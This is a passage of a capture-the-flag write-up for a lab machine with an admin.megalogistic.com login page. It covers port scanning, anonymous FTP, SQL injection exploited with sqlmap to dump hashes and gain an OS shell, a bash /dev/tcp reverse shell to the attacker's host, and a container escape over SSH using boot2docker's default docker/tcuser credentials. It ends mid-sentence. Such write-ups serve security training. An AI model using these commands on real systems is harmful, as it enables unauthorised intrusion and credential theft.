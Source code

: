 1, port scan and web-content enumerate
21/tcp ftp `ftp-anon: Anonymous FTP login allowed`
22/tcp ssh
135/tcp msrpc
443/tcp ssl http
```
ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR

So there would a sub-domain: admin.megalogistic.com
```
445/tcp SMB\
```
smbclient -L 10.10.10.236

Password for [WORKGROUP\wither]:
session setup failed: NT_STATUS_ACCESS_DENIED

There would need the creds.
```
5985/tcp http
47001/tcp http

Firstly, we can check the ftp with anonymous user.
Then we can get a file `docker-toolbox.exe`
```
file docker-toolbox.exe 

docker-toolbox.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 8 sections
```

Secondly, we have got so many ports for http service, so we guess this machine would have other virtual hosts or sub-domains.

From https://admin.megalogistic.com/ There is a login page and we have get some error messages when we test the sql injection.

```
**Warning**: pg_query(): Query failed: ERROR: unterminated quoted string at or near "'admin'');" LINE 1: ...users WHERE username = 'admin' AND password = md5('admin''); ^ in **/var/www/admin/index.php** on line **10**
```

In this place we can found the password would md5 encode.
We can use sqlmap to crack the database:
```
sqlmap -r sql.request --force-ssl --batch --dbs

sqlmap -r login.request --force-ssl --batch -D public --tables

sqlmap -r login.request --force-ssl --batch -D public -T users --dump

+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+

```

Then we can use hashcat to crack the md5 hash, but sadly we can not crack it.

So let's try to exec the command by using the sqlmap:
`sqlmap -r sql.request --force-ssl --batch --os-shell`
Then we just need to make the reverse shell
`bash -c "bash -i >& /dev/tcp/10.10.14.65/443 0>&1"`

In this place, we need a full TTY.
```

python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg

```
Then we can get the user shell.

3, System shell
```
ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 26073  bytes 5412131 (5.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 22764  bytes 8591773 (8.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 81801  bytes 18964110 (18.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 81801  bytes 18964110 (18.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        
```

We can get a truth: this would be a container or docker.

```
Docker-Toolbox 
At this point, a bit more detail about Docker-Toolbox is necessary. The solution is deprecated, but that doesn’t mean it can’t be seen in the wild. Docker Toolbox installs VirtualBox, and creates a VM running the boot2docker Linux distribution. From it’s README:

(https://github.com/boot2docker/boot2docker#ssh-into-vm)
Boot2Docker is a lightweight Linux distribution made specifically to run Docker containers. It runs completely from RAM, is a ~45MB download and boots quickly.

At the bottom of that page, there’s information on how to SSH into the VM using the username docker and the password tcuser. I considered doing a ping sweep of the network to look for other hosts, but ping isn’t installed on this container.

I can guess that since this container is .2, the host (VM) is likely .1, and try to ssh into it. It works:
```

`ssh docker@172.17.0.1` `password: tcuser`

Then we can get the root shell of docker machine
Enumerate the versions and os-release
```
root@box:/home/docker# cat /etc/os-release                                     
NAME=Boot2Docker
VERSION=19.03.5
ID=boot2docker
ID_LIKE=tcl
VERSION_ID=19.03.5
PRETTY_NAME="Boot2Docker 19.03.5 (TCL 10.1)"
ANSI_COLOR="1;34"
HOME_URL="https://github.com/boot2docker/boot2docker"
SUPPORT_URL="https://blog.docker.com/2016/11/introducing-docker-community-directory-docker-community-slack/"
BUG_REPORT_URL="https://github.com/boot2docker/boot2docker/issues"
```

There’s an interesting folder at the system root, c
It looks like it has mounted the Users directory, which is standard in a Windows system


